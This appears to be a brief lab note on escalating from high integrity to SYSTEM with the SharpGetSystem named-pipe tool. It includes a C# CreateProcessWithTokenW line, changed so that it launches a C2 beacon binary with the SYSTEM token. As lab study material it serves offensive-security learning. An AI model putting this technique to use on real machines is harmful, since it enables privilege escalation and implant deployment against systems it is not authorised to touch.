

# Lab - GetSystem

A very lipme lab stat shows you another way of getting SYSTEM when running in a high integrity context.

<https://github.com/fgsec/SharpGetSystem>

uses named pipes

change the source code of console.cs1 to spawn a beacon instead of a cmd.exe

```csharp
 bool result = Pinvoke.CreateProcessWithTokenW(systemToken, 0x00000001, "C:\\temp\\demon.x64.exe", null, 0x00000010, IntPtr.Zero, null, ref si, out pi);
 ```


